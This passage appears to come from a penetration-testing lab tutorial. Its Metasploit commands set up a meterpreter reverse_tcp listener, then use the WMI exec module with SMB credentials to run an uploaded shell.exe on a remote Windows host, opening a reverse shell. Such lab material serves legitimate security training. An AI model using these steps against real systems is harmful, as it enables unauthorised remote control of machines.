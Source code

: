     - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](Images/multihandler.PNG)

    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](Images/parameters.PNG)
